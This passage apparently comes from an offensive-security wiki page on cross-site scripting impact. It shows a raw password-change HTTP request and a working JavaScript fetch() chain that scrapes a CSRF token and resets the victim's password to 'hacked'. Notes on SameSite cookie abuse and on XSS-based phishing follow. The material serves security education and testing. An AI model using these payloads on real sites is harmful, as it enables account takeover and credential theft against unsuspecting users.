 {% code title="HTTP Request" %}
```http
POST /api/change_password HTTP/1.1
Host: target.com
Cookie: session=...
X-Custom-Header: anything
Content-Type: application/json
Content-Length: 49

{"password":"hacked","confirm_password":"hacked"}
```
{% endcode %}

Due to `fetch()` only being a simple function call, you can create a very complex sequence of actions in JavaScript code to execute on the victim, as some actions require some setup. You could create an API token using one request, and then use it in the next to perform some API call. Or a more common example is fetching a CSRF token from some form, and then using that token to POST data if it is protected in that way. As you can see, CSRF tokens do _not_ protect against XSS:

```javascript
fetch("http://target.com/login")  // Request to some form with CSRF token
    .then(res => res.text())
    .then(res => {
        // Extract CSRF token
        const csrf_token = res.match(/<input type="hidden" name="csrf_token" value="(.*)" \/>/)[1];
        // Build password reset form data
        const form = new FormData();
        form.append("csrf_token", csrf_token);
        form.append("password", "hacked");
        form.append("confirm_password", "hacked");

        // Perform another request with leaked token
        fetch("http://target.com/change_password", {
            method: "POST",
            body: form
        });
    });
```

{% hint style="info" %}
**Tip**: If there is no CSRF token, you may also be able to send `SameSite=Strict` cookies from another subdomain that you have XSS on to a target, because the are considered same-site. Read more about this in [cross-site-request-forgery-csrf.md](cross-site-request-forgery-csrf.md "mention").
{% endhint %}

### Phishing (+ Password Managers)

XSS gives you complete control over the JavaScript execution on a page, meaning you can also control everything that is on the page, under the regular target's domain. This can create phishing pages indistinguishable from the real login page because the content can be controlled as well as the domain in the navigation bar. As shown in[#alternative-impact](cross-site-scripting-xss.md#alternative-impact "mention"), just using an `<iframe>` and a `<style>` tag you can take over the whole page with your own. One slight problem password managers will notice is the fact that the form itself is on another domain, meaning saved passwords will not automatically be filled or suggested.&#x20;


[^1]: slashes (/) and quotes (") disallowed
[^2]: quotes (") disallowed
